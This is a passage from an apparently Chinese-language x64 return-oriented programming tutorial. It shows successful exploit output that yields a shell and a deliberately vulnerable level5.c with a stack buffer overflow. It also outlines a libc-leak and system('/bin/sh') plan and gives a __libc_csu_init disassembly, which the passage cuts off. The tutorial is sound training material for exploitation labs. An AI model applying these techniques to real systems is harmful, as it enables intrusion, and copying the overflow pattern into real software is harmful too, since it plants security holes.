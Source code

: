 ```

##########receiving system addr##########

system_addr = 0x7f6f754d8730
binsh_addr = 0x7f6f7560d471
pop_ret_addr = 0x7f6f754b5a12

##########sending payload##########

[*] Switching to interactive mode
$ whoami
mzheng
```

## 0x04 通用gadgets

因为程序在编译过程中会加入一些通用函数用来进行初始化操作（比如加载libc.so的初始化函数），所以虽然很多程序的源码不同，但是初始化的过程是相同的，因此针对这些初始化函数，我们可以提取一些通用的gadgets加以使用，从而达到我们想要达到的效果。 

为了方便大家学习x64下的ROP，level3和level4的程序都留了一些辅助函数在程序中，这次我们将这些辅助函数去掉再来挑战一下。目标程序level5.c如下：  
``` c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
    char buf[128];
    read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
    write(STDOUT_FILENO, "Hello, World\n", 13);
    vulnerable_function();
}
```
可以看到这个程序仅仅只有一个buffer overflow，也没有任何的辅助函数可以使用，所以我们要先想办法泄露内存信息，找到system()的值，然后再传递“/bin/sh”到.bss段, 最后调用system(“/bin/sh”)。因为原程序使用了write()和read()函数，我们可以通过write()去输出write.got的地址，从而计算出libc.so在内存中的地址。但问题在于write()的参数应该如何传递，因为x64下前6个参数不是保存在栈中，而是通过寄存器传值。我们使用ROPgadget并没有找到类似于pop rdi, ret,pop rsi, ret这样的gadgets。那应该怎么办呢？其实在x64下有一些万能的gadgets可以利用。比如说我们用`objdump -d ./level5`观察一下`__libc_csu_init()`这个函数。一般来说，只要程序调用了libc.so，程序都会有这个函数用来对libc进行初始化操作。  
```
00000000004005a0 <__libc_csu_init>:
  4005a0:   48 89 6c 24 d8          mov    %rbp,-0x28(%rsp)
  4005a5:   4c 89 64 24 e0          mov    %r12,-0x20(%rsp)
  4005aa:   48 8d 2d 73 08 20 00    lea    0x200873(%rip),%rbp        # 600e24 <__init_array_end>
  4005b1:   4c 8d 25 6c 08 20 00    lea    0x20086c(%rip),%r12        # 600e24 <__init_array_end>
  4005b8:   4c 89 6c 24 e8          mov    %r13,-0x18(%rsp)
  4005bd:   4c 89 74 24 f0          mov    %r14,-0x10(%rsp)
  4005c2:   4c 89 7c 24 f8          mov    %r15,-0x8(%rsp)
  4005c7:   48 89 5c 24 d0          mov    %rbx,-0x30(%rsp)
  4005cc:   48 83 ec 38             sub    $0x38,%rsp
  4005d0:   4c 29 e5                sub    %r12,%rbp
  4005d3:   41 89 fd                mov    %edi,%r13d
  4005d6:   49 89 f6                mov    %rsi,%r14
  4005d9:   48 c1 fd 03             sar    $0x3,%rbp
  4005dd:   49 89 d7                mov    %rdx,%r15
  4005e0:   e8 1b fe ff ff          callq  400400 <_init>
  4005e5:   48 85 ed                test   %rbp,%rbp
  4005e8:   74 1c                   je     400606 <__libc_csu_init+0x66>
  4005ea:   31 db                   xor    %ebx,%ebx
  4005ec:   0f 1f 40 00             nopl   0x0(%rax)
  4005f0:   4c 89 fa                mov    %r15,%rdx
  4005f3:   4c 89 f6                mov    %r14,%rsi
  4005f6:   44 89 ef                mov    %r13d,%edi
```